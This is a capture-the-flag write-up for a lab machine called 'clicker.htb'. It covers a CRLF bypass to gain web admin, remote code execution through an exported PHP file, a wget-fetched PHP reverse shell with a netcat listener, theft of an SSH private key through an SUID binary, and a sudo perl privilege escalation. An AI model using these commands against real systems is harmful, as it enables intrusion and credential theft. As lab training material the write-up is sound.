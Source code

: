 ## Initial Foothold
Threader3000 output:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d83bdf8f-3087-46af-946b-a0344f5eaa52)

nmap scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d79217f2-b1fa-4899-9b3e-4083800ab551)

Mounting through rpcbind we get the source code to the website:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/a4d493c3-c315-4bd0-8961-19fb17aa2cfe)

Going to the http page, I see that clicker.htb is a hostname, so I put it in /etc/hosts:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/f3440627-79ea-4910-8c3d-eb57c8124ee5)

ffuf scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/2a60e4e1-06cc-405f-a9bb-d95f003467f9)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/93acf304-50df-4fcc-b61d-4cdf8500032b)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/0eb00477-1b1d-4b74-aaa9-4f53aef5cdc1)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/d8dc8649-b141-4ed7-815c-69a93f9ca79f)

Looking at save_game.php, we see that they are likely trying to prevent us from setting our "role" to admin:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/0601bdfb-aaad-4af3-ab3d-b12fdad1d0af)

CRLF (Carriage Return Line Feed) Bypass to get Admin on webapp:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/350ed58b-d660-4c8f-af7b-575b22f275ea)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5a7bc25f-74ec-4a0d-ae18-cd59db2edba9)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5b4d2183-a6c5-4dda-a3f1-9f02e2d71865)

Setting payload in nickname field that will be displayed in the exported file:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/ee9b195d-20a2-46de-adf1-4d7f71d401bb)

Setting the exported file extension to .php so it can be executed:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/a4eb0281-5c97-4b6d-81f5-fcb2b8d15519)

RCE achieved:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/58cf322c-c3bf-4257-8597-78372fdca035)

Host a server with python locally and download the php reverse shell onto the target machine:
- https://github.com/ivan-sincek/php-reverse-shell
- python3 -m http.server 80
- http://clicker.htb/exports/top_players_hsyxecsn.php?cmd=wget%20http://10.10.14.13/flexibleshell.php

Listen and execute the rshell:
- rlwrap nc -nvlp 1234
- http://clicker.htb/exports/top_players_hsyxecsn.php?cmd=php%20flexibleshell.php
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/cf60cc8f-313a-46a3-980c-c2bbf3b003d9)

## Privesc
stabilize shell:
- python3 -c "import pty;pty.spawn('/bin/sh')"
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/25cb1630-f605-4662-8943-bc6e390989e4)
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/88a83453-bbe3-4c31-a144-5d027fbc99dd)

download and execute linpeas:
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- wget 10.10.14.13/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/fdaab627-91c0-483c-ba60-05818d1acea5)

There is a functionality in this SUID binary that allows us to read jack's private ssh key (the program is run inside jack's home directory):

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/3c5ca730-ecc1-4326-a932-dcd6d33656bb)

Copy/paste it over onto local machine into "id_rsa", and then run "ssh jack@clicker.htb -i id_rsa":

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/59b04f7e-32d7-4759-a9c6-940461bac970)


Checking out sudo permissions, we see /opt/monitor.sh which is a perl script allowing us to use an perl_startup privesc:
- ![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/57e5bfda-9ab9-472c-9b64-e5f3be8958e6)
- https://www.exploit-db.com/exploits/39702

Exploit to give bash an SUID bit and get root:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5591564a-e3db-4930-818e-f307f2f5120f)



